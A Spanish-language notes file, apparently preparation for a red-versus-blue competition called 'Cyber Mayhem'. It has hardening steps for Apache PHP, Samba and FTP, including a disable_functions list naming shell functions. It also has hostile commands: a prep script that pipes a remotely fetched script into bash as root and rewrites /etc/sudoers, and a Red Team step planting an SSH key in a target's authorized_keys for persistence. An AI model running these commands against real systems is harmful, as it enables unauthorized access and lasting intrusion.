 # Cyber Mayhem

## TODO

- Hardening de Tomcat.
- Buscar métodos de persistencia.

## Preparación

prep.sh
- Falta levantar el webserver.
```bash
#!/bin/bash
sshpass -p $2 ssh -o GlobalKnownHostsFile=/dev/null -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no -t root@$1 "chmod -s /usr/bin/pkexec; cat /etc/sudoers; curl $3/sudoers.sh | bash; bash -l"
```

sudoers.sh
```bash
#!/bin/bash
grep -v -E "^root|Defaults|#|%|^s|^$" /etc/sudoers | while read -r entry; do user=$(echo $entry | awk '{print $1}'); substitution=$(echo $entry | sed "s/([^)]*)/($user)/g"); sed -i "s|$entry|$substitution|g" /etc/sudoers; done
```

## Blue Team

### Monitoreo

```bash
ps # Identificar sesión de ssh
ps -aux --forest # Ver procesos con sus hijos
w # Visualizar usuarios logueados
who # Visualizar usuarios logueados
```

### Apache

#### PHP.ini

Rutas:
- `/etc/php.ini`.
- `/etc/php/<version>/apache2/php.ini`.

```bash
disable_functions = exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source

# Después de guardar cambios, reiniciar servicio
systemctl restart apache2
```

Probar si no afecta el healthcheck:

```bash
allow_url_fopen = Off
allow_url_include = Off
```

### Samba

Rutas:
- `/etc/samba/smb.conf`.

```bash
[global]
map to guest = never # Deshabilita sesión nula
usershare allow guests = no # Deshabilita sesión de guests
restrict anonymous = 2 # Probar con healthcheck

[myshare] # Probar con healthcheck
writeable = no
browseable = no
public = no
```

### FTP

*La configuración depende de que servicio de FTP se esté ejecutando.*

Rutas:
- `/etc/vsftpd.conf`

```bash
# /etc/vsftpd.conf
anonymous_enable=NO
write_enable=NO
anon_upload_enable=NO

# Ruta expuesta en FTP
chmod 755 /tmp/ftp # Probar healthcheck
```

## Red Team

### Persistencia

#### SSH

Local:

```bash
ssh-keygen -t rsa # Crear llave privada
cat id_rsa.pub | xclip -sel c
```

Intrusión:

```bash
echo '<pegar clipboard>' > <ruta de usuario>/.ssh/authorized_keys
```
